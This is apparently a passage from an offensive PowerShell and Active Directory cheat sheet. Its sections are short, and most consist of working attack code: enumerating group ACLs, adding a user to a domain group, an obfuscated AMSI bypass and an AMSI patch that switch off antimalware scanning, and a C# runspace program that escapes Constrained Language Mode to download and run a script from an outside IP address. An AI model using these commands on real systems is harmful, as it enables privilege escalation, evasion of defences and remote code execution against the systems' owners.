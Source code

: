 **list all groups to which the user belongs and has explicit access rights**

```
Get-DomainGroup | Get-ObjectAcl -ResolveGUIDs | Foreach-Object {$_ | Add-Member -NotePropertyName Identity -NotePropertyValue (ConvertFrom-SID
$_.SecurityIdentifier.value) -Force; $_} | Foreach-Object {if ($_.Identity -eq $("$env:UserDomain\$env:Username")) {$_}}
```

```
net group Administrator aker /add /domain
```

### Enhanced Security Bypass

#### AntiMalware Scan Interface

```
sET-ItEM ( 'V'+'aR' + 'IA' + 'blE:1q2' + 'uZx' ) ( [TYpE]( "{1}{0}"-F'F','rE' ) ) ; ( GeT-VariaBle ( "1Q2U" +"zX" ) -VaL )."A`ss`Embly"."GET`TY`Pe"(( "{6}{3}{1}{4}{2}{0}{5}" -f'Util','A','Amsi','.Management.','utomation.','s','System' ) )."g`etf`iElD"( ( "{0}{2}{1}" -f'amsi','d','InitFaile' ),( "{2}{4}{0}{1}{3}" -f 'Stat','i','NonPubli','c','c,' ))."sE`T`VaLUE"( ${n`ULl},${t`RuE} )
```

patching AMSI from Powershell6 :

```
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('s_amsiInitFailed','NonPublic,Static').SetValue($null,$true)
```

#### ConstrainLanguageMode

Bypass CLM using **runspace**:

```
static void Main(string[] args){
    Runspace run = RunspaceFactory.CreateRunspace();
    run.Open();

    PowerShell shell = PowerShell.Create();
    shell.Runspace = run;

    String cmd = "iex(new-object net.webclient).DownloadString('http://10.10.14.33/script')";
    shell.AddScript(cmd);
    shell.Invoke();
    run.Close();
}
```

#### Just Enough Administration

> show current languages level :

```
# METHOD 1
(Get-PSSessionConfiguration -Name Test).LanguageMode
# METHOD 2
$ExecutionContext.SessionState.LanguageMode # use property
```
